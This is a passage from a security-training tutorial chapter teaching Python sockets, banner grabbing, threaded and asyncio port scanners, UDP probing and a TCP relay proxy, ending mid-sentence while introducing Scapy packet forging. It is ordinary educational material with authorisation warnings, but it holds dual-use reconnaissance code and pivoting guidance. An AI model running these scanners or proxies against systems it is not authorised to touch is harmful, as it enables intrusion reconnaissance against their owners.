





**Level:** Intermediate · **Track:** Foundations · **Read time:** 165 min

This is Chapter 3 of the Programming for Security series — Notebook 5. Chapter 2 gave you
functions, files, modules, and the `requests` library, and you built a directory
brute-forcer that spoke HTTP. But `requests` is a comfortable, high-level cushion: it
hides the TCP connection, the DNS lookup, the byte stream, and the packet boundaries.
This chapter pulls that cushion away. You will open a **raw TCP socket**, send bytes onto
the wire yourself, read a service banner back, and understand exactly what `requests` was
doing on your behalf all along.

From there we go one layer deeper still. `sockets` let you talk to a service; **Scapy**
lets you *forge the packets themselves* — set your own TCP flags, craft an ARP reply,
sniff traffic off the interface, and build a port scanner that never completes a
handshake. By the end you will have written a threaded port scanner, an asyncio-based fast
scanner, a Scapy SYN scanner, an ARP host-discovery sweep, and a small sniffer — the exact
primitives that live inside `nmap`, `masscan`, `arp-scan`, and `responder`. Everything is
lab-scoped and lawful: you run these against machines you own or are explicitly authorised
to test, and nothing else.

## Who This Chapter Is For (and the Map Ahead)

You need Chapters 1 and 2 of this series (syntax, bytes-vs-str, functions, error handling,
modules) and a working idea of TCP/IP from Notebook 2 — the OSI model, the TCP three-way
handshake, ports, ARP, and DNS. If "SYN/SYN-ACK/ACK" and "an ARP request is a broadcast"
mean nothing to you, skim Networking Chapters 2, 4, and 6 first; this chapter *implements*
those ideas in code.

The map:

- **Part 1** — what a socket actually is, the file-descriptor abstraction, and the
  client/server model.
- **Part 2** — TCP client sockets: connect, send, recv, and a banner grabber.
- **Part 3** — a hand-built TCP port scanner, and why naive scanning is slow.
- **Part 4** — threading to make it fast, with a thread pool.
- **Part 5** — `asyncio` for thousands of concurrent connections without threads.
- **Part 6** — UDP sockets and why UDP scanning is fundamentally harder.
- **Part 7** — server sockets: building a listener, and a tiny TCP proxy.
- **Part 8** — Scapy from scratch: installing it, the layered-packet model, `/` stacking.
- **Part 9** — crafting and sending: ICMP ping, a TCP SYN scan, ARP host discovery.
- **Part 10** — sniffing with Scapy: capture, filter, dissect, and a mini packet logger.
- **Part 11** — a lab: ARP spoofing and DNS spoofing on an isolated network you control.
- **Part 12** — packaging it all into a real CLI tool with `argparse`.
- **Part 13** — Detection & Defense Angle: how blue teams see everything you just built.
- Then Final Revision, Cheat Sheet, and topic-specific Practice Labs.

A running theme: **abstraction has a cost and a benefit.** `requests` is fast to write and
safe; a raw socket is slower to write but shows you the truth. Scapy sits even lower and
lets you *lie* to the network — send a packet that no normal client would ever send. That
ability to lie is precisely what makes it a security tool, and precisely why you must only
point it at systems you are allowed to touch.

## Part 1: What a Socket Actually Is

A **socket** is the operating system's abstraction for one endpoint of a network
connection. When two programs talk over a network, each has a socket; the pair of sockets
plus the protocol forms the conversation. On Unix, a socket is a **file descriptor** — the
same kind of integer handle the kernel hands you for an open file — which is why you can
`read()` and `write()` a socket much like a file. This is the deep Unix idea that
"everything is a file" extended across the network.

Every socket is defined by five things, together called the **5-tuple**:

| Element | Example | Meaning |
|---|---|---|
| Protocol | TCP | Transport protocol (TCP or UDP) |
| Source IP | 10.10.14.7 | Your machine's address |
| Source port | 51544 | An ephemeral port the OS picks for you |
| Destination IP | 10.10.10.5 | The server you're talking to |
| Destination port | 443 | The service's well-known port |

The kernel uses this 5-tuple to demultiplex incoming packets: when a packet arrives, the
OS looks at the tuple to decide which socket (and therefore which program) it belongs to.
Two browser tabs to the same website work because the **source port differs** even though
the other four elements match.

In Python the entire interface lives in one standard-library module, `socket`, which is a
thin wrapper over the C Berkeley-sockets API (`socket()`, `connect()`, `bind()`, `listen()`,
`accept()`, `send()`, `recv()`, `close()`). Learning it teaches you the API used by
essentially every network program on the planet, in every language.

Two constants describe the socket you want:

- **Address family** — `socket.AF_INET` for IPv4, `socket.AF_INET6` for IPv6,
  `socket.AF_UNIX` for local inter-process sockets.
- **Socket type** — `socket.SOCK_STREAM` for TCP (reliable, ordered byte stream) or
  `socket.SOCK_DGRAM` for UDP (unreliable, message-oriented datagrams).

```python
import socket

# A TCP/IPv4 socket — the most common combination.
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

That single line asks the kernel for a fresh file descriptor configured for TCP over IPv4.
Nothing has hit the network yet — you have only allocated the endpoint. The client and
server then diverge:



The **client** side is what a scanner or an HTTP client does: create a socket, `connect()`
to a destination, then `send`/`recv`. The **server** side (`bind` → `listen` → `accept`) is
what a service or a listener does. We start with the client because scanning, banner
grabbing, and most offensive tooling live there.

**Security relevance:** a port scanner is nothing more than a program that tries to
`connect()` a TCP socket to every port in a range and records which connections succeed. A
banner grabber goes one step further and reads the first bytes the service volunteers.
Understanding the socket API means you can build both without any external tool — useful on
a locked-down box where `nmap` isn't installed but Python is.

## Part 2: TCP Client Sockets — Connect, Send, Recv

The minimal TCP client is four calls: create, connect, send, receive, close. Here is a
complete, working example that talks to an HTTP server the hard way — no `requests`:

```python
import socket

target = ("example.com", 80)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(5)                     # never block forever
s.connect(target)                   # DNS resolve + 3-way handshake happen here

# HTTP is just text over TCP. Bytes, not str — the wire only speaks bytes.
request = b"GET / HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n"
s.sendall(request)                  # sendall loops until every byte is sent

response = b""
while True:
    chunk = s.recv(4096)            # read up to 4096 bytes
    if not chunk:                   # empty bytes == peer closed the connection
        break
    response += chunk

s.close()
print(response.decode(errors="replace")[:500])
```

Every line here teaches something. Let's dissect the ones that matter:

- **`s.settimeout(5)`** — without this, `connect()` and `recv()` block *indefinitely* if
  the host is silent (a filtered/dropped port behaves exactly this way). Timeouts are the
  single most important habit in network code; a scanner without them hangs on the first
  firewalled port. The argument is seconds (float allowed, e.g. `0.5`).
- **`s.connect(target)`** — this does two hidden things: resolves `example.com` to an IP via
  DNS, then performs the TCP three-way handshake. If either fails it raises
  `socket.gaierror` (DNS failure) or `ConnectionRefusedError` / `socket.timeout`.
- **`b"GET ..."`** — note the `b` prefix. Sockets send and receive **bytes**, never `str`.
  This is the bytes-vs-str boundary from Chapter 1 made real. `\r\n` (carriage-return +
  line-feed) is the line terminator HTTP requires; a bare `\n` breaks many servers.
- **`sendall`** vs **`send`** — `send()` may transmit *fewer* bytes than you gave it and
  returns the count actually sent; you'd have to loop. `sendall()` loops for you and only
  returns when everything is out (or raises). Prefer `sendall` for whole messages.
- **`recv(4096)`** — reads *up to* 4096 bytes. TCP is a **stream, not a message boundary**:
  one `sendall` on the other side may arrive as several `recv`s, or several sends may
  coalesce into one `recv`. You must loop until you have what you need. An empty `b""`
  return means the peer closed cleanly (FIN).
- **`Connection: close`** — tells the server to close after one response, so our `recv`
  loop terminates naturally. Without it the server may keep the connection alive and our
  loop blocks until the timeout.

Wrap it in error handling — real tools face refused, filtered, and unresolved hosts
constantly:

```python
import socket

def http_get(host, port=80, timeout=5):
    try:
        with socket.create_connection((host, port), timeout=timeout) as s:
            s.sendall(
                f"GET / HTTP/1.1\r\nHost: {host}\r\nConnection: close\r\n\r\n".encode()
            )
            data = b""
            while chunk := s.recv(4096):
                data += chunk
            return data
    except socket.gaierror:
        return b"[!] DNS resolution failed"
    except (ConnectionRefusedError, socket.timeout) as e:
        return f"[!] Connection problem: {e}".encode()

print(http_get("example.com").decode(errors="replace")[:300])
```

`socket.create_connection((host, port), timeout=...)` is the convenience helper you should
usually reach for: it handles the `socket()` + `settimeout` + `connect()` sequence *and*
transparently tries every IP that a hostname resolves to (IPv4 and IPv6), which raw
`connect()` does not. The `with` block guarantees `close()` even on exception. The
`while chunk := s.recv(4096)` uses the walrus operator (Python 3.8+) to assign and test in
one line.

### Banner Grabbing

Many services announce themselves the instant you connect — SSH, FTP, SMTP, and many
others print a **banner** identifying the software and version before you send anything.
Grabbing that banner is the fastest way to fingerprint a service:

```python
import socket

def grab_banner(host, port, timeout=3):
    try:
        with socket.create_connection((host, port), timeout=timeout) as s:
            s.settimeout(timeout)
            banner = s.recv(1024)
            return banner.decode(errors="replace").strip()
    except Exception:
        return None

for port in (21, 22, 25, 80, 110):
    b = grab_banner("scanme.nmap.org", port)
    if b:
        print(f"{port:>4}: {b}")
```

Realistic output against a host running OpenSSH and vsftpd:

```
  22: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
```

**Bug-bounty / recon angle:** service banners frequently leak exact version strings
(`OpenSSH_8.2p1`, `vsftpd 3.0.3`, `Exim 4.94`) that you can map straight to known CVEs.
That single line of SSH banner tells you the OpenSSH version *and* the Ubuntu package
revision, which narrows the patch level precisely. This is exactly what `nmap -sV` does,
just less politely. HTTP services don't volunteer a banner, so for port 80/443 you send the
`GET` request above and read the `Server:` header instead.

## Part 3: A Hand-Built TCP Port Scanner

A **connect scan** determines whether a TCP port is open by attempting a full three-way
handshake: if `connect()` succeeds, the port is open; if it's refused, closed; if it times
out, filtered (a firewall silently dropped the packet). Here is a complete single-threaded
scanner:

```python
import socket
import sys

def scan_port(host, port, timeout=1.0):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    try:
        s.connect((host, port))
        return True                 # handshake completed → open
    except (ConnectionRefusedError, socket.timeout, OSError):
        return False
    finally:
        s.close()                   # ALWAYS release the descriptor

def scan_range(host, start, end):
    print(f"[*] Scanning {host} ports {start}-{end}")
    open_ports = []
    for port in range(start, end + 1):
        if scan_port(host, port):
            open_ports.append(port)
            print(f"[+] {port}/tcp open")
    return open_ports

if __name__ == "__main__":
    host = sys.argv[1] if len(sys.argv) > 1 else "scanme.nmap.org"
    scan_range(host, 1, 1024)
```

Key details:

- **The three outcomes** map to three exception behaviours. `ConnectionRefusedError` (a
  TCP RST came back) means **closed** — something is listening on the stack but not that
  port. `socket.timeout` means **filtered** — no response at all, a firewall ate the SYN.
  `OSError` catches assorted network-unreachable cases.
- **`finally: s.close()`** is non-negotiable. Each open socket consumes a file descriptor;
  scan 65535 ports without closing and you hit the process fd limit (`ulimit -n`, often
  1024) and start getting `OSError: [Errno 24] Too many open files`.
- **Timeout choice is a trade-off.** Too short (`0.1s`) and you miss slow or distant hosts
  (false "filtered"). Too long (`3s`) and a firewalled host with 1000 dropped ports takes
  3000 seconds. `1.0s` is a sane LAN default.

Run it and you get output like:

```
[*] Scanning scanme.nmap.org ports 1-1024
[+] 22/tcp open
[+] 80/tcp open
```

The fatal flaw: **it's sequential.** Each filtered port costs a full timeout, and ports are
scanned one at a time. Scanning 1024 ports where 900 are filtered at 1s each = 15 minutes.
The real 65535-port range would take over 18 hours. This is why every serious scanner is
concurrent — which is Part 4.



**Ethics note:** even a connect scan is *noisy and logged* — a completed handshake leaves an
entry in the target's connection logs and may trip an IDS. Only scan hosts you own or are
authorised (in writing, for a real engagement) to test. `scanme.nmap.org` is a host Nmap
explicitly provides for practice; use it or your own lab, nothing else.

## Part 4: Threading — Making the Scanner Fast

The scanner is slow because it *waits*. During a 1-second timeout the CPU does nothing —
it's **I/O-bound**, not CPU-bound. The fix is concurrency: start many connection attempts
so their wait times overlap. Python's **threads** are perfect for I/O-bound work despite the
Global Interpreter Lock (GIL), because a thread blocked on `recv`/`connect` *releases the
GIL*, letting other threads run.

The clean modern tool is `concurrent.futures.ThreadPoolExecutor`, which manages a fixed
pool of worker threads and a work queue for you:

```python
import socket
from concurrent.futures import ThreadPoolExecutor, as_completed

def scan_port(host, port, timeout=1.0):
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((host, port))
            return port, True
    except (ConnectionRefusedError, socket.timeout, OSError):
        return port, False

def threaded_scan(host, ports, workers=200):
    open_ports = []
    with ThreadPoolExecutor(max_workers=workers) as pool:
        futures = [pool.submit(scan_port, host, p) for p in ports]
        for fut in as_completed(futures):
            port, is_open = fut.result()
            if is_open:
                open_ports.append(port)
                print(f"[+] {port}/tcp open")
    return sorted(open_ports)

if __name__ == "__main__":
    ports = range(1, 1025)
    result = threaded_scan("scanme.nmap.org", ports, workers=200)
    print(f"[*] Done. Open: {result}")
```

What changed and why it matters:

- **`ThreadPoolExecutor(max_workers=200)`** spins up 200 worker threads. With 200 workers,
  1024 ports finish in roughly `1024/200 ≈ 6` timeout-rounds instead of 1024. The 15-minute
  scan drops to about 6 seconds.
- **`pool.submit(fn, *args)`** schedules a call and immediately returns a `Future` — a
  handle to a result that may not exist yet. It does **not** block.
- **`as_completed(futures)`** yields each future *as its result becomes ready*, in
  completion order (not submission order), so open ports print the instant they're found.
- **`with socket.socket(...) as s`** — the context manager guarantees `close()` per attempt,
  which matters even more with hundreds of concurrent sockets.

**How many workers?** More is not always better. Each thread is a real OS thread (~8 MB of
stack reserved, though not all committed). Beyond a few hundred you hit diminishing returns
and may exhaust file descriptors or trip the target's connection-rate limits. 100–500 is a
practical band for a laptop. For *tens of thousands* of concurrent connections you need a
fundamentally different model — `asyncio`, Part 5.

**A GIL caveat, stated precisely:** threading speeds up this scanner because the work is
I/O-bound (waiting on the network). If your workload were CPU-bound (hashing, crypto,
parsing megabytes), Python threads would *not* speed it up — the GIL serialises CPU-bound
Python bytecode — and you'd reach for `multiprocessing` instead. Know which kind of work you
have before choosing a concurrency tool.

## Part 5: asyncio — Thousands of Connections Without Threads

Threads have overhead: each is a kernel-scheduled entity with its own stack, and context
switches cost. To hold **thousands** of simultaneous connections, the modern approach is
**asynchronous I/O** — a single thread running an *event loop* that juggles many
connections by never blocking. When one connection is waiting on the network, the loop runs
another. This is *cooperative* multitasking with `async`/`await`.

```python
import asyncio

async def scan_port(host, port, timeout=1.0):
    try:
        # open_connection returns (reader, writer) streams
        fut = asyncio.open_connection(host, port)
        reader, writer = await asyncio.wait_for(fut, timeout=timeout)
        writer.close()
        await writer.wait_closed()
        return port, True
    except (OSError, asyncio.TimeoutError):
        return port, False

async def async_scan(host, ports, concurrency=1000):
    sem = asyncio.Semaphore(concurrency)   # cap simultaneous sockets

    async def bounded(port):
        async with sem:
            return await scan_port(host, port)

    tasks = [asyncio.create_task(bounded(p)) for p in ports]
    open_ports = []
    for coro in asyncio.as_completed(tasks):
        port, is_open = await coro
        if is_open:
            open_ports.append(port)
            print(f"[+] {port}/tcp open")
    return sorted(open_ports)

if __name__ == "__main__":
    result = asyncio.run(async_scan("scanme.nmap.org", range(1, 1025)))
    print(f"[*] Open: {result}")
```

Concepts, explained from zero:

- **`async def`** defines a *coroutine* — a function that can suspend itself at an `await`
  and hand control back to the event loop. Calling it doesn't run it; it returns a coroutine
  object you must `await` or wrap in a task.
- **`await expr`** means "suspend here until `expr` completes, and let the loop run other
  work meanwhile." Every `await` is a potential yield point.
- **`asyncio.open_connection`** is the async equivalent of `socket.create_connection`; it
  gives you high-level `reader`/`writer` stream objects instead of a raw socket.
- **`asyncio.wait_for(fut, timeout)`** wraps any awaitable with a timeout — async code has
  no `settimeout`, so this is how you bound an operation.
- **`asyncio.Semaphore(concurrency)`** limits how many coroutines are in the socket-open
  section at once. Without it, `range(1, 65536)` would try to open 65k sockets instantly
  and exhaust file descriptors. The semaphore is the async analogue of the thread pool's
  `max_workers`.
- **`asyncio.run(coro)`** creates the event loop, runs the top-level coroutine to
  completion, and tears the loop down. It's the single entry point from synchronous code.

**Threads vs asyncio, the honest comparison:**

| Aspect | ThreadPoolExecutor | asyncio |
|---|---|---|
| Unit of concurrency | OS thread | Coroutine (all in one thread) |
| Practical ceiling | Hundreds | Tens of thousands |
| Memory per unit | ~MBs (thread stack) | ~KBs (coroutine) |
| Blocking call safety | Fine — thread blocks alone | Dangerous — one blocking call freezes the whole loop |
| Code complexity | Lower — ordinary functions | Higher — `async`/`await` everywhere |
| Best for | Moderate concurrency, mixing sync libs | Massive concurrency, all-async stack |

The killer rule for asyncio: **one accidental blocking call poisons everything.** If inside
a coroutine you call a synchronous `requests.get()` or `time.sleep(5)`, the *entire event
loop* stalls for that duration — every other coroutine freezes. Use `asyncio.sleep`, async
HTTP libraries (`aiohttp`, `httpx`), and never a blocking call in the hot path.

## Part 6: UDP Sockets and Why UDP Scanning Is Hard

UDP is **connectionless**: there is no handshake, no connection state, no built-in
acknowledgement. You create a `SOCK_DGRAM` socket and simply send a datagram to an address.
This makes UDP sockets simpler to write but UDP *scanning* fundamentally harder to
interpret.

```python
import socket

def udp_send(host, port, payload=b"", timeout=3):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(timeout)
    try:
        s.sendto(payload, (host, port))    # no connect() needed
        data, addr = s.recvfrom(1024)      # returns (bytes, sender_address)
        return ("open", data)
    except socket.timeout:
        return ("open|filtered", None)     # silence is ambiguous!
    except ConnectionRefusedError:
        # An ICMP port-unreachable came back → definitively closed
        return ("closed", None)
    finally:
        s.close()
```

Note `sendto`/`recvfrom` instead of `connect`/`send`/`recv`: because there's no connection,
every datagram carries its destination and every reply carries its sender's address.

The scanning problem, stated plainly: **for UDP, silence is ambiguous.** When you send a
UDP datagram to a port:

- If the port is **closed**, the host *usually* replies with an ICMP "port unreachable"
  (type 3, code 3) — Python surfaces this as `ConnectionRefusedError`. Definitive: closed.
- If the port is **open**, the service *might* reply with an application response — but many
  UDP services only respond to a correctly formatted request and stay silent otherwise.
- If a **firewall** drops the packet, you also get silence.

So an open service that ignores malformed input and a firewalled port look *identical* from
the outside — both produce a timeout. That's why Nmap labels them `open|filtered` and why
UDP scans are slow and unreliable: to distinguish, you must send **protocol-correct
payloads** (a real DNS query to 53, a real SNMP GetRequest to 161) and see if the service
answers. `nmap` ships a database of such probes (`nmap-payloads`); a hand-rolled scanner
needs its own.



**Red-team relevance:** UDP hides high-value services — DNS (53), SNMP (161, community-string
goldmine), NetBIOS (137), IKE/VPN (500), and TFTP (69). Because UDP scans are slow and often
skipped, these are exactly the ports defenders forget and attackers probe. A correct SNMP
probe with the default `public` community string can dump an entire device's config.

## Part 7: Server Sockets and a Tiny TCP Proxy

Everything so far was the *client* side. To build listeners, backdoors' benign cousins,
honeypots, or a proxy, you need the *server* side: `bind` → `listen` → `accept`.

```python
import socket

def tcp_echo_server(host="127.0.0.1", port=9000):
    srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    # SO_REUSEADDR lets you rebind the port immediately after restart,
    # instead of waiting out the TIME_WAIT state.
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind((host, port))          # claim the address/port
    srv.listen(5)                   # backlog of 5 pending connections
    print(f"[*] Listening on {host}:{port}")
    while True:
        conn, addr = srv.accept()   # blocks until a client connects
        print(f"[+] Connection from {addr[0]}:{addr[1]}")
        with conn:
            while data := conn.recv(4096):
                conn.sendall(data)  # echo it back
        print(f"[-] {addr[0]} disconnected")
```

The new calls:

- **`setsockopt(SOL_SOCKET, SO_REUSEADDR, 1)`** — after a server closes, the OS keeps the
  port in `TIME_WAIT` for up to a couple of minutes to catch stray packets. Without
  `SO_REUSEADDR` you get `OSError: [Errno 98] Address already in use` when you restart.
  Setting it before `bind` avoids that. Set it on every server you write.
- **`bind((host, port))`** — claims the local address. Bind to `127.0.0.1` to be reachable
  only from localhost, or `0.0.0.0` to accept from any interface (be deliberate — `0.0.0.0`
  exposes you to the whole network).
- **`listen(backlog)`** — marks the socket passive and sets how many *pending* (not yet
  `accept`ed) connections the kernel queues.
- **`accept()`** — blocks until a client connects, then returns a **new** socket `conn` for
  that specific client plus their address. The original `srv` socket keeps listening; `conn`
  is the conversation. Handling multiple clients means threading each `conn` or using
  asyncio.

Now a genuinely useful tool — a **TCP proxy** that sits between a client and a server and
relays bytes both ways while printing them. This is the skeleton of a traffic inspector or a
protocol debugger:

```python
import socket
import threading

def relay(src, dst, label):
    try:
        while data := src.recv(4096):
            print(f"[{label}] {len(data)} bytes")
            dst.sendall(data)
    except OSError:
        pass
    finally:
        dst.close()

def proxy(listen_port, remote_host, remote_port):
    srv = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind(("0.0.0.0", listen_port))
    srv.listen(5)
    print(f"[*] Proxy :{listen_port} → {remote_host}:{remote_port}")
    while True:
        client, addr = srv.accept()
        print(f"[+] {addr} connected")
        upstream = socket.create_connection((remote_host, remote_port))
        # Two threads: client→server and server→client, running concurrently.
        threading.Thread(target=relay, args=(client, upstream, "C→S"), daemon=True).start()
        threading.Thread(target=relay, args=(upstream, client, "S→C"), daemon=True).start()

# proxy(8080, "example.com", 80)
```

**Security relevance:** this exact pattern underlies port-forwarding, SSH-tunnel endpoints,
intercepting proxies (Burp/mitmproxy are elaborate versions of this), and pivot relays used
in post-exploitation to reach an internal host through a compromised jump box. The two-thread
bidirectional relay is the canonical shape; you'll recognise it everywhere once you've
written it once.

## Part 8: Scapy From Scratch — Forging Packets

`socket` lets you talk *to* services using the OS's TCP/IP stack — the kernel builds the
IP and TCP headers for you, and it will only ever build *correct* ones. **Scapy** is a
different beast: a Python library that lets you build packets *field by field*, including
malformed or unusual ones the kernel would never emit, and send them at layer 2 or 3. That
is what makes it the Swiss-army knife of `nmap`-style scanning, `arp-scan`-style discovery,
`responder`-style spoofing, and packet-crafting fuzzers.

**What Scapy is, precisely:** a packet-manipulation library and interactive tool. It can
forge, decode, send, capture, and match packets across dozens of protocols. Because sending
raw/layer-2 packets requires privileged access to the network interface, **Scapy almost
always needs root** (`sudo`).

**Install on Kali (Scapy ships preinstalled, but for any Debian/Ubuntu box):**

```bash
sudo apt update && sudo apt install -y python3-scapy   # system package
# or, in a virtualenv:
pip install scapy
```

Verify and enter the interactive shell:

```bash
sudo scapy
```

```
>>> IP()
<IP  |>
>>> ls(TCP)          # list every field of the TCP layer with defaults
```

### The Layered-Packet Model and the `/` Operator

Scapy's central idea: a packet is a **stack of layers**, and you compose them with the `/`
